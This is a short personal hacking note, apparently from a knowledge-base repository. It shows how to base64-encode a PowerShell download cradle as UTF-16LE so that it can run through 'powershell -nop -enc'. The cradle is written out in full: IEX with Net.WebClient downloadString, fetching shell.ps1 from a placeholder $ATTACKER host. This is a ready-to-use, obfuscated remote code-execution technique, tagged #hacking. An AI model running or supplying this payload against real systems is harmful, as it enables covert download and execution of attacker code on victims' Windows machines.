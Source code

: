 # powershell encode commands as base64 with windows wide char strings in linux
```bash
echo -n "IEX(New-Object Net.WebClient).downloadString('http://$ATTACKER/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0
```

Target:
```
powershell -nop -enc <BASE64_ENCODED_PAYLOAD>
```

# Related
- [20221003150730](/zet/20221003150730/README.md) powershell
- ~/kb/hacking/commands/encode-powershell-base64-windows.md

Tags:
    #assorted #command #hacking #windows #encode
